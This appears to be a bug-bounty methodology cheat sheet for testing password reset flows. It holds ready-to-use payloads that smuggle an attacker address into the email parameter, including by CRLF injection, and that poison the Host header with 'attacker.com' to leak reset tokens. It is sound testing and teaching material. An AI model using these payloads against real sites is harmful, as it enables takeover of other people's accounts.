 # MyBugbountyMethodology

# Password reset/forgot

- Password reset link not expiring
- No rate limiting on password reset
    > Start the burp suite and intercept the password reset request
    
    > Send to intruder
   
    > Use null payload

- Password reset token leak via referer
    > Request password reset to your email address
    
    > Open on the password reset link
    
    > Make sure you don’t change the password there
    
    > On Password Reset Page Click On Social Media Links Given Below And Capture The Request Using Burp Suite
    
    > Check if the referer header is a leaking password reset token?

- Password reset with manipulating email parameter
    
    > email=victim@xyz.tld&email=hacker@xyz.tld
       
    > email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
        
    > email=victim@xyz.tld,hacker@xyz.tld
    
    > email=victim@xyz.tld%20hacker@xyz.tld
    
    > email=victim@xyz.tld|hacker@xyz.tld
    
    > email=victim
    
    > email=victim@xyz
    
    > {“email”:[“victim@xyz.tld”,”hacker@xyz.tld”]}
   
- Password reset Poisoining leads to token leak
    > Host: attacker.comHost: target.com
    
    > X-Forwarded-Host: attacker.comHost: target.com
    
    > Host: attacker.com
   
   
